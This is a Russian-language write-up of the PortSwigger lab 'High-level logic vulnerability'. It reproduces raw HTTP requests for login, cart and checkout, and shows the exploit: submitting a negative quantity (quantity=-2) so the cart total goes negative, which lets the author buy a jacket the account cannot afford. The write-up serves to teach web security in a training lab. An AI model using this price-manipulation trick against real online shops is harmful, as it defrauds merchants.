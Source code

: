 ```yaml
---
title: "High-level logic vulnerability"
date: 2025-10-23
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level"
classes: wide
---
```


В лабе плохо валидируется ввод. Для прохождения нужно купить `Lightweight l33t leather jacket`. Даны креды для учетной записи `wiener`:`peter`.

```
https://0ab000a804be19f1810198cc00310021.web-security-academy.net/
```

# Solution

Зайду в ЛК. 

```http
POST /login HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=EJJfKxdsWv6s9HPUkUCxtQuxovK2Q5lZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=R9t0O6GqgiZOVnREVHHS6VRp3PlJ4GnE&username=wiener&password=peter
```

Добавлю и куплю товар:

```http
POST /cart HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=EJJfKxdsWv6s9HPUkUCxtQuxovK2Q5lZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/product?productId=3
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=3&redir=PRODUCT&quantity=1
```

```http
POST /cart/checkout HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=TXt9fRLvAo4pK8N6YO4uKYsVEeN1s9Dy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=Ly9cEQvMmiwvcom3wGFsMeXBKmQYNQ1U
```

Хмм. Мне не дает покоя поле `quantity`. Попробую подставить в него отрицательное значение:

```http
POST /cart HTTP/2
Host: 0ab000a804be19f1810198cc00310021.web-security-academy.net
Cookie: session=TXt9fRLvAo4pK8N6YO4uKYsVEeN1s9Dy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab000a804be19f1810198cc00310021.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ab000a804be19f1810198cc00310021.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=-2
```

Замечательно:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/1.png){: height="200" .align-center}

Хмм. Просчитались, но где... Ок. Добавим в корзину что-нибудь еще.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/2.png){: height="200" .align-center}

Нужны ли мне 15 бассейнов? Да!

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/3.png){: height="200" .align-center}

У меня получилось сделать заказ. Но есть проблема. Мне нужно сделать баланс отрицательным, а потом добавить куртку. Сделаю это:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/4.png){: height="200" .align-center}

15 бассейнов оказались лишними. Ну да ладно. Лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_high-level/5.png){: height="200" .align-center}